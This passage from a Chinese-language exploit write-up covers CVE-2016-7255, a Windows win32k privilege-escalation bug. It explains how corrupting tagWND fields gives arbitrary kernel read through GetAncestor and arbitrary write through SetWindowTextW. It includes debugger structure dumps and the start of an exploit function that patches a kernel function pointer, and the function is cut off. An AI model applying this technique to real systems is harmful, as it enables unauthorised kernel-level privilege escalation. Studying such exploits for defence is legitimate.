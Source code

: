   
**4.任意地址读写**  
  
  
任意地址的读取要用到GetAncestor函数，该函数的定义如下：  
```
HWND GetAncestor(HWND hwnd, UINT gaFlags);
```  
  
  
该函数会调用内核中的NtUserGetAncestor，NtUserGetAncestor函数将_GetAncestor函数返回值指向的地址中的值作为返回值：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8H927eQIguHibTpiaQzZ1q3Lse9hHH1IC0j2v2620miasQMfzpgdLMOF5yRk5OYAEDfhFb5QHTL0fDcw/640?wx_fmt=png "")  
  
参数gaFlags为1的时候，_GetAncestor函数会返回tagWND中偏移0x34的spwndParent：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8H927eQIguHibTpiaQzZ1q3LsymyuDpyjFL08DSwxnwhgslrvItyWOqlgBXZQJ5ZnbTXFibTOsseMicicQ/640?wx_fmt=png "")  
  
所以，在用户层调用GetAncestor函数的时候，如果第二个参数指定为GA_PANT，函数就会将第一个参数对应的tagWND对象的spwndParant所指的内存地址中的数据返回。  
```
#define     GA_PARENT       1
```  
  
  
因为可以利用越界写入操作将tagWND偏移0x34的spwndParent修改为任意地址，所以，可以通过调用GetAncestor就可以实现任意地址的读取。  
  
  
对于任意地址写入，需要用到tagWND对象偏移0x84处的strName成员：  
```
kd> dt win32k!tagWND
   +0x084 strName          : _LARGE_UNICODE_STRING
```  
  
  
该成员用来是一个_LARGE_UNICODE_STRING结构体，结构体定义如下：  
```
2: kd> dt win32k!_LARGE_UNICODE_STRING
   +0x000 Length           : Uint4B
   +0x004 MaximumLength    : Bitfield Pos 0, 31 Bits
   +0x004 bAnsi            : Bitfield Pos 31, 1 Bit
   +0x008 Buffer           : Ptr32 to Uint2B
```  
  
  
在用户层调用如下定义的SetWindowTextW函数的时候，函数会将参数lpString中的数据写入到tagWND->strName的Buffer保存的地址中。同理，因为此时可以利用越界写入操作将Buffer修改为任意地址，所以，可以通过SetWindowTextW实现任意地址写入。  
```
WINUSERAPI
BOOL
WINAPI
SetWindowTextW(
    __in HWND hWnd,
    __in_opt LPCWSTR lpString);
```  
  
  
有了任意地址的读写能力，现在就可以轻松地通过修改NtQuerySystemInformation函数来实现提权操作，相应代码如下：  
```
BOOL EnablePrivilege_CVE_2016_7255(HWND hTriggerWnd, HWND hAttackWnd, DWORD dwOffset)
{
    BOOL bRet = TRUE;

    PVOID pTargetAddr = NULL;
    // 获取目标函数地址
    pTargetAddr = GetHalQuerySystemInformation();

    if (!pTargetAddr)
    {
        bRet = FALSE;
        goto exit;
    }

    DWORD dwOrg = 0, dwOrgPar = 0;
```